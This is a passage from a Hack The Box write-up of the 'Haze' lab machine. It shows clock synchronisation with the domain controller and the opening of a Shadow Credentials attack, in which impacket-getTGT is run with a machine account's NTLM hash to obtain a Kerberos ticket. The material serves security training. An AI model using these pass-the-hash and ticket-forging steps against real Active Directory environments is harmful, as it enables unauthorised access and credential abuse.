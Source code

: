 ![](images/2025-03-29_23-02_bloodhound_support_services_group_permissions.png)

### Time and Date Synchronization

In order to carry this one out we needed to synchronize our `date` and `time` with the `Domain Controller`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
[sudo] password for kali: 
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service.
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ sudo systemctl stop systemd-timesyncd
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ sudo net time set -S 10.129.135.234
```

### Shadow Credentials Attack

After the preparation `mk0` came back to execute the `Shadow Credentials` attack an `Edward.Martin`. Therefore we needed to grab a `Kerberos ticket` first and export it within our current session on our local machine.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ impacket-getTGT 'haze.htb/Haze-IT-Backup$' -hashes :735c02c6b2dc54c3c8c6891f55279ebc
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Haze-IT-Backup$.ccache
```
